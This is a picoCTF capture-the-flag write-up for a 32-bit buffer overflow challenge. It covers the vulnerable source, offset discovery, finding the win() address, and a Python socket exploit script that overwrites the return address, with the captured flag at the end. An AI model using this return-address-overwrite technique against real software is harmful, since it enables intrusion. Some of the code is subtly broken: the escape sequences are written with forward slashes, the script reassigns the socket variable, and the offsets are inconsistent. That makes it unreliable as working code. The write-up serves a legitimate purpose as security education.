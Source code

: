 # BufferOverFlow1
link challenge: https://play.picoctf.org/practice/challenge/258?category=6&page=2

## Description
Control the return address
Now we're cooking! You can overflow the buffer and return to the flag function in the program.
You can view source here.

## Solution
get the given file:

    wget https://artifacts.picoctf.net/c/185/vuln https://artifacts.picoctf.net/c/185/vuln
    wget https://artifacts.picoctf.net/c/185/vuln https://artifacts.picoctf.net/c/185/vuln.c

if we run the program with:

    chmod +x vuln
    ./vuln


the program will ask for a string. 

    Please enter your string: 

let's take a step back, we start with analysing the vuln.c source code.

first the BUFSIZE, from it we can consider that the offset maybe 32 or even more.

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <unistd.h>
    #include <sys/types.h>
    #include "asm.h"

    #define BUFSIZE 32
    #define FLAGSIZE 64



    void win() {
      char buf[FLAGSIZE];
      FILE *f = fopen("flag.txt","r");
      if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
        exit(0);
      }

      fgets(buf,FLAGSIZE,f);
      printf(buf);
    }

    void vuln(){
      char buf[BUFSIZE];
      gets(buf);

      printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
    }

    int main(int argc, char **argv){

      setvbuf(stdout, NULL, _IONBF, 0);
  
      gid_t gid = getegid();
      setresgid(gid, gid, gid);

      puts("Please enter your string: ");
      vuln();
      return 0;
    }

from these three functions, we can know that:
-  function win() is the function that will give us the flag
-  vuln() function seems there's an interesting one, '''

       gets(buf); '''.  that's where the we will get the buffer
   
-  main() function we can know that is call vuln() function after we input a value
-  the end, we know that we can get the buffer by entering some payload while inputing the value

## exploitation step
before inputing some string to the program we must know the number of offset length is.
if we enter 32 A:

    python -c "print('A' * 32)" 

we'll get nothing strange, but if we entered the string length until 48 we'll get a segmentation fault.

    python -c "print('A' * 48)"

the program will crash and give us:
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
zsh: done                python -c "print('A' * 48)" | 
zsh: segmentation fault  ./vuln

from this, we know the offset length is 48.

if we analyze the 0x41414141 too, it's a hex number of "AAAA". so the program are jumping to the "AAAA" adresss.

what if we make the program to jump to the win() function address??
so, we must find the address of the win() function with "readelf" tools

the command to see the address function of vuln file is

    readelf -s ./vuln

-s for displaying the symbols table of the file

the output will given us the win() function address: 
    
    080491f6   139 FUNC    GLOBAL DEFAULT   13 win

080491f6 is the address, and don't forget that the address is in the hex number.

if we want to reach the win() function we must input 44 characters and the address of win 080491f6. but we must convert the address of win() to the 
little-endian format first:
/xf6/x91/x04/x08

so, let's execute it with the command:
python -c "print('A' * 44 + '/xf6/x91/x04/x08')" | nc saturn.picoctf.net 62768

but, the flag still doesn't show up.

so, i write a script to exploit this

    import argparse
    import socket
    import struct

    parser = argparse.ArgumentParser()
    parser.add_argument(
            "host",
            type=str,
            help="host name or ip adress to connect"
            )

    parser.add_argument(
            "port",
            type=int,
            help="port number to connect"
            )

    args = parser.parse_args()

    offset = 44

    new_address = struct.pack("<I", 0x080491f6)

    payload = b"".join(
        [
        b"A" * offset,
        new_address
        ]
    )

    payload += b"\n"

    print(args.host, args.port)

    with socket.socket() as connection:
        connection = socket.socket

        connection.connect((args.host, args.port))
        connection.recv(4096).decode("utf-8")
        connection.send(payload)
        connection.recv(4096).decode("utf-8")
        connection.recv(4096).decode("utf-8")

if we exploit this code with the command: 

    python exploit.py saturn.picoctf.net 62768 

the program will gives us the flag:

    picoCTF{addr3ss3s_ar3_3asy_6462ca2d}



